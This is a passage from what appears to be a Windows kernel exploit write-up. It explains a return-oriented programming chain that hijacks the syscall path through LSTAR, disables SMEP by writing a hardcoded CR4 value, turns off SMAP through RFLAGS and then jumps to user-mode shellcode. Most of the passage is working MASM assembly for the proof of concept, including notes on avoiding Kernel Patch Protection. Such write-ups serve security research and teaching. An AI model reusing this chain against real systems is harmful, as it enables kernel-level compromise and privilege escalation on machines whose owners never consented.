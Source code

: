 To make the PoC easier, instead of reading the existing value of CR4 and then modifying it, I replaced it with a known value that works. I used windbg to check what was CR4 in my test VM and I hardcoded it into the exploit with bits 20,21 set to 0. The original value should also be saved, because the final shellcode should restore it in order not to trigger KPP.  

With SMEP disabled, no more gadgets are required and the ROP can finally jump to the user allocated buffer containing the shellcode.  
The following is the chain of execution:  
```
syscall -> LSTAR (gadget1, switch to kernel-mode) -> gadget2 (disable SMEP) -> shellcode
```

Let's see how the *__rop*{: style="color: LightGreen"} function responsible for preparing the ROP will look like (it's easier to read it from the bottom-up):  

```asm
PUBLIC __rop

.code
	__rop PROC
    ; rcx - arg1, rdx - arg2, r8 - arg3, r9 - arg4
	; top of stack -> return address
	
	    pushfq           ; push current RFLAGS on stack
		pop r12          ; save original RFLAGS to r12, and restore before returning to main
		                 ; otherwise program crashes when the shellcode returns to the calling function

		sub rsp, 16      ; 
		xor rbx, rbx     ; rbx = 0
		sub rbx, 16      ; rbx = FFFFFFFFFFF0
		and rsp, rbx     ; align the stack to 16 byte (needed by IRETQ)

		push rcx         ; arg1 -> user shellcode address
		
		sub rsp, 20h     ; neutralize the "add rsp, 20h" from the CR4 gadget

		mov rbx, 18h     ; SS, usually 0x18 in kernel-mode
		push rbx         ; ss
		push rsp         ; RSP (Current RSP points to where SS was pushed. 
		                 ; After IRETQ, RSP will be replaced with this one and will point to where SS was on stack)
						 ; The cr4 gadget has "pop rbx" which will remove it from stack

		pushfq           ; push current RFLAGS to stack
		pop rbx          ; load current RFLAGS to rbx
		and rbx, 0FFh    ; keep interrupts off (was mentioned in one presentation, not 100% sure why its needed, but just in case)
		or rbx, 040000h  ; Disable SMAP!
		push rbx         ; push modified RFLAGS on stack - used by iretq
		push rbx         ; push modified RFLAGS on stack again
		popfq            ; load modified RFLAGS from stack which will disable SMAP from this point onwards
		
		mov rbx, 10h     ; CS usually 0x10 in kernel-mode
		push rbx         ; CS
		mov rax, 070678h ; hardcoded CR4 value that works. Bits 20,21 set to 0. Disables SMEP!
		push rdx         ; arg2 -> cr4_gadget => mov cr4, rax ; add rsp, 0x20 ; pop rbx ; ret

		syscall          ; jumps to first ROP gadget, pointed by LSTAR -> swapgs; iretq
	__rop ENDP
end
```
